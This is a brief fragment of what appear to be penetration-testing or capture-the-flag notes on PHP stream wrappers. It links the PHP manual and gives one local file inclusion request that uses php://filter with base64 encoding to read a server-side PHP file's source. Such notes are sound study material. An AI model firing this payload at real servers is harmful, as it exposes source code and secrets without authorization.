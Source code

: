 
### wrappers

https://www.php.net/manual/en/wrappers.php.php

filter

`/test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
